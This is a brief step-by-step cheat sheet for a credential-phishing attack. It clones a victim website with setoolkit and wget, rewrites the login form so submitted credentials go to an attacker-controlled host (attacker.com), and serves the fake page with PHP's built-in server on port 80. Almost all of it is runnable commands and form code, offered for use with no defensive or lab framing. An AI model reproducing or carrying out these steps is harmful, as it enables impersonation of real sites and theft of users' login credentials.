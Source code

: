 Use setoolkit to clone website
----------------------------
```bash
setoolkit
1, 2, 3, 2
[Enter]
https://site.toclone.com
# copy files from the ~/.set/ directory to working directory
```
Use wget to clone website
---------------------------
```bash
wget --no-check-certificate --convert-links --random-wait -r -p -E -e robots=off -U mozilla https://www.victim.com
```
Modify login page to use GET rather then POST method
----------------------------------------------------
```
Copy index.html (or equivalent) to working directory
Open index.html in text editor and search for attacking domain name or ip address or login method being used

Example 1
<form name="login" id="login_form" method="post" action="http://www.attacker.com/" autocomplete="off">
<form name="login" id="login_form" method="get" action="http://www.attacker.com/" autocomplete="off">
change "method="post" to "method="get"

Example 2
<form name="login" id="login_form" method="post" action="index.html" autocomplete="off">
<form name="login" id="login_form" method="get" action="index.html" autocomplete="off">
change "method="post" to "method="get"
```
Start attackers phishing website
--------------------------
```bash
php -S xxx.xxx.xxx.xxx:80
```
